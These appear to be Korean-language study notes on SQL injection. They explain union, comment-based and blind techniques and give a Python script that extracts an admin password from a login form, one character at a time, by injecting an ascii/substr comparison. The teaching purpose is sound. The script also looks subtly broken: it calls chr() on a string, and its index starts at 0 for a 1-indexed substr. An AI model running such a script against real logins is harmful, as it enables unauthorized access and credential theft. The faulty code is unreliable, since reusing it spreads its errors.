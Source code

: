 ## SQL Injection
### SQL Injection
---
#### SQL Injection이란?
웹 서비스는 이용자의 입력을 SQL구문에 포함해 요청하는 경우가 있다. 이 때 이용자가 SQL구문에 임의 문자열을 삽입하는 행위를 SQL Injection이라고 한다. SQL Injection이 발생하면 조작된 쿼리로 인증을 우회하거나, 데이터베이스의 정보를 유출할 수 있다.
#### Simple SQL Injection
단순히 sql을 변환하여 Injection하는 것이다. union을 이용하여 추가 연산을 할 수 있거나, `--`, `#`, `/**/`와 같이 주석을 이용하는 등 다양한 방법으로 Injection할 수 있다.
#### Blind SQL Injection
데이터베이스에 데이터를 알아내느 Injection이다. 질의 결과를 이용자가 직접 확인하지 않고, 참/ 거짓 반환 결과로 데이터를 획득하는 공격 기법이다.
* ascii
전달된 문자를 아스키 형태로 변환하는 함수이다.
* substr
문자열에서 지정한 위치부터 길이까지의 값을 가져온다.
#### Blind SQL Injection 공격 스크립트
한 바이트씩 비교하여 공격하므로 많은 시간이 필요하다. 그러므로 공격을 자동화하는 스크립트를 만들 필요가 있다.
* requests
이 모듈 뒤에 get이나 post를 이용하여 요청을 전송할 수 있다.
```py
import requests
url = 'https://dreamhack.io/'
headers = {
    'Content-Type': 'application/x-www-form-urlencoded',
    'User-Agent': 'DREAMHACK_REQUEST'
}
params = {
    'test': 1,
}
for i in range(1, 5):
    c = requests.get(url + str(i), headers=headers, params=params)
    print(c.request.url)
    print(c.text)

import requests
url = 'https://dreamhack.io/'
headers = {
    'Content-Type': 'application/x-www-form-urlencoded',
    'User-Agent': 'DREAMHACK_REQUEST'
}
data = {
    'test': 1,
}
for i in range(1, 5):
    c = requests.post(url + str(i), headers=headers, data=data)
    print(c.text)
```
우선 사용자가 작성할만한 비밀번호는 알파벳, 숫자, 특수문자이다. 이것을 아스키 범위로 나타내면 32부터 126까지이다. 
```py
#!/usr/bin/python3
import requests
import string
url = 'http://example.com/login' # example URL
params = {
    'uid': '',
    'upw': ''
}
tc = string.ascii_letters + string.digits + string.punctuation # abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789!"#$%&\'()*+,-./:;<=>?@[\\]^_`{|}~
query = '''
admin' and ascii(substr(upw,{idx},1))={val}--
'''
password = ''
for idx in range(0, 20):
    for ch in tc:
        params['uid'] = query.format(idx=idx, val=ord(ch)).strip("\n")
        c = requests.get(url, params=params)
        print(c.request.url)
        if c.text.find("Login success") != -1:
            password += chr(ch)
            break
print(f"Password is {password}")
```